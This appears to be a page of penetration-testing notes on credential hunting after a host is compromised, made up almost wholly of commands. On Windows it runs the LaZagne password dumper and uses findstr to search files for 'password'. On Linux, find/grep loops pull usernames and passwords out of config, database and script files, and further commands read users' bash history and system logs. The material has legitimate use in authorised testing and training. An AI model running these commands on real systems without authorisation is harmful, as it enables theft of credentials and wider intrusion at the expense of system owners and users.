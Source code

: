 ```cmd-session
start lazagne.exe all
```

```cmd-session
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

# Credential Hunting in Linux

```shell-session
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

```shell-session
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

```shell-session
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

```shell-session
tail -n5 /home/*/.bash*
```

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

